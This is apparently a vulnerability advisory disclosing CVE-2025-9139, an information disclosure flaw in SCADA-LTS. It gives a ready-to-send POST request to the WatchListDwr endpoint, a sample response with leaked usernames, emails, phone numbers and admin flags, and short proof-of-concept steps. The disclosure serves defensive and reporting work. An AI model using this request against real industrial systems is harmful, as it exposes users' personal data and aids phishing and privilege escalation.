


## CVE-2025-9139: Sensitive User Information Disclosure via `WatchListDwr.init.dwr` Endpoint

> ***CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-9139***

## Summary

<p style="text-align: justify;">A vulnerability was identified in the <code>WatchListDwr.init.dwr</code> endpoint of SCADA-LTS that allows any authenticated user, even with minimal permissions, to access sensitive user information including usernames, emails, phone numbers, and admin status. This flaw constitutes an <b>Information Disclosure</b> issue and could be used to facilitate further attacks such as phishing, privilege escalation, or social engineering.</p>

## Details

<p style="text-align: justify;">
<ul>
<li><b>Vulnerable Endpoint:</b> <code>POST /Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr</code></li>
<li><b>Authentication Required:</b> Yes (low-privileged user)</li>
<li><b>Affected Parameter:</b> N/A (static DWR call)</li>
<li><b>Impact Type:</b> Information Disclosure</li>
</ul>
</p>

<p style="text-align: justify;">By issuing a crafted POST request to the vulnerable endpoint, a low-privileged user is able to retrieve detailed information of all users in the system. The backend responds with a full JavaScript object containing data such as usernames, emails, admin flags, and phone numbers.</p>

### Sample Request:

```terminal
POST /Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr HTTP/1.1
Host: kubernetes.docker.internal:8080
Content-Type: text/plain

callCount=1
page=/Scada-LTS/watch_list.shtm
httpSessionId=
scriptSessionId=XYZ123456789
c0-scriptName=WatchListDwr
c0-methodName=init
c0-id=0
batchId=1
```

### Sample Response Snippet::

```terminal
javascript
s7.admin=true;
s7.email="admin@yourMangoDomain.com";
s7.username="admin";

s8.admin=false;
s8.email="anonymous@mail.com";
s8.username="anonymous";

s11.admin=false;
s11.email="user1@x.com";
s11.phone="13212313131";
s11.username="user1";
```

## PoC

### Authenticate as any valid low-privileged user.




### Send the above POST request to `/Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr`



### Observe the server response containing sensitive information of all users in the SCADA system

## Impact

<p style="text-align: justify;">
<ul>
<li>Privacy Violation: Emails, phone numbers, and usernames of all users, including administrators, are exposed.</li>
<li>Privilege Escalation Support: Knowledge of admin usernames and roles could be leveraged in further attacks.</li>
<li>Phishing and Social Engineering: Exposed contact information can be used to craft highly targeted attacks.</li>
<li>Reconnaissance: Attackers can map the user structure of the SCADA-LTS system for further exploitation.
</ul>
</p>

## Reference

***[https://github.com/CVE-Hunters/CVE/blob/main/Scada-LTS/CVE-2025-9139.md](https://github.com/CVE-Hunters/CVE/blob/main/Scada-LTS/CVE-2025-9139.md)***

## Finder

[](https://www.linkedin.com/in/nmmorette/) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette/)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***